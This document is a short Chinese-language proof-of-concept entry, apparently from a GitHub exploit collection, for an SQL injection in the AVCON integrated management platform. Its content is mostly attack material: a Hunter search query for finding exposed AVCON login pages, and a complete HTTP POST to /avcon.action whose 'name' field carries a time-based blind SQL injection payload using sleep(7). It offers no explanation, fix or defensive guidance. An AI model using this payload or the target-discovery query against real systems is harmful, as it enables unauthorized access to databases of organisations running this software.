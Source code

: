 ## avcon综合管理平台SQL注入漏洞


## hunter
```
web.title="AVCON-系统管理平台"
```

## poc
```
POST /avcon.action HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 77

name=0'XOR(if(now()=sysdate()%2Csleep(7)%2C0))XOR'Z&password=u]H[ww6KrA9F.x-F
```
![a9c6cfee7dd8881ea4bf019d82903c04](../../images/349eafe6-c55e-449f-b6e4-bb01923c07ef.png)

